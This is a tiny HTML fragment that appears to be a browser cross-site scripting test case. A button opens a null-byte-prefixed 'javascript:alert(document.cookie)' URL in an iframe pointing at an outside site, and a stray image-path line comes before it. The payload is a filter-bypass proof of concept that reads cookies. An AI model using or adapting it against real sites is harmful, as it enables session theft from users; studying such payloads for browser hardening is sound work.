 <iframe name="test" src="http://www.baidu.com"></iframe>
<input type=button value="test"
onclick="window.open('\u0000javascript:alert(document.cookie)','test')" >
